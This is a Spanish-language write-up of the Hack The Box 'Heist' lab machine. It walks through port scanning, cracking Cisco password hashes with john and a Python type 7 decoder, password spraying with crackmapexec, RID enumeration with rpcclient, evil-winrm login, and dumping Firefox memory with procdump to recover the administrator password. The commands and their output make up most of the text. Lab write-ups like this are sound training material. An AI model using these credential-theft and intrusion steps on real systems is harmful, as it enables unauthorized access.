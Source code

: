 ```yaml
---
layout: single
title: HTB-Heist
excerpt: "WriteUp de la máquina HTB Heist -- Type: Easy"
date: 2022-04-06
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/heist/heist.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/heist/heist.png"></centre>


[Maquina](https://app.hackthebox.com/machines/Heist) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.149
```

```bash
Nmap scan report for 10.10.10.149
Host is up (0.042s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-06T13:56:12
|_  start_date: N/A
|_clock-skew: 5m43s
```

En la web podemos ver un panel de login y podemos entrar como **guest**
<centre><img src="/assets/images/writeups/heist/panel1.png"></centre>

Una vez dentro, veriamos que se trata de una especie de panel de ticketing donde hay diferentes usuarios que guardamos los nombres y tiene un fichero adjuntado a un mensaje donde se encuentran contraseñas que podemos crackear.
<centre><img src="/assets/images/writeups/heist/panel2.png"></centre>
```txt
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
```


## Explotación

Con **john** podemos crackear el md5,
```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long pass.txt

└─$ john --show pass.txt
?:stealth1agent
```

Y con el siguiente script en python que se puede encontrar por internet se pueden descifrar las otras dos passwords
```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```

```bash
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 0242114B0E143F015F5D1E161713      
$uperP@ssword
                                                                                                                                                                                                                                            
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d
```

Usamos **crackmapexec** para comprobar si existe algun usuario con alguna contraseña para logearse en la máquina.
```bash
crackmapexec smb 10.10.10.149 -u usr.txt -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

```bash
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```      

rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)


```bash
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```


```txt
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

```bash
crackmapexec smb 10.10.10.149 -u chase -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nos conectamos con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'    
```

Al movernos por la máquina no encontramos nada y podriamos mirar los procesos con el comando **PS** y nos encontramos algunos de **firefox** y podríamos intentar sacar algunas **credenciales** que tenga en el navegador.
```txt COMANDO PS
   1478      57    23496      79184              4316   1 explorer
    347      19    10240      38684       0.05   1736   1 firefox
    405      33    26756      84500       0.80   2584   1 firefox
   1048      63   112260     188264       3.83   3672   1 firefox
    385      28    21712      58504       0.97   6288   1 firefox
    355      25    16432      39132       0.09   6652   1 firefox
     49       6     1504       3852               756   0 fontdrvhost
     49       6     1792       4648               764   1 fontdrvhost
```

Nos dumpeamos las credenciales con el [Procdump](https://download.sysinternals.com/files/Procdump.zip) y lo subimos con el comando upload de **evil-winrm**.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 1736

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:34:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220419_133414.dmp
[13:34:14] Dump 1 writing: Estimated dump file size is 288 MB.
[13:34:16] Dump 1 complete: 288 MB written in 1.5 seconds
[13:34:16] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Con el programa [Strings](https://download.sysinternals.com/files/Strings.zip) podemos aclarar el fichero dmp a un txt algo mas visible para nosotros.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings.exe -accepteula 
firefox.exe_220419_133414.dmp > fichero.txt"
````



Buscamos la posible contraseña en el **fichero.txt**
```txt
*Evil-WinRM* PS C:\Users\Chase\Documents> findstr "login_password" fichero.txt
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Comprobamos que usuario somos al entrar con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'    
```
```txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::d8
   IPv6 Address. . . . . . . . . . . : dead:beef::dcaf:64d7:3f43:1c72
   Link-local IPv6 Address . . . . . : fe80::dcaf:64d7:3f43:1c72%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.149
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%15
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


Flag **Chase**:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        4/19/2022   1:21 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Chase\Desktop>
```

Flag **Administrator**
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/19/2022   1:21 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```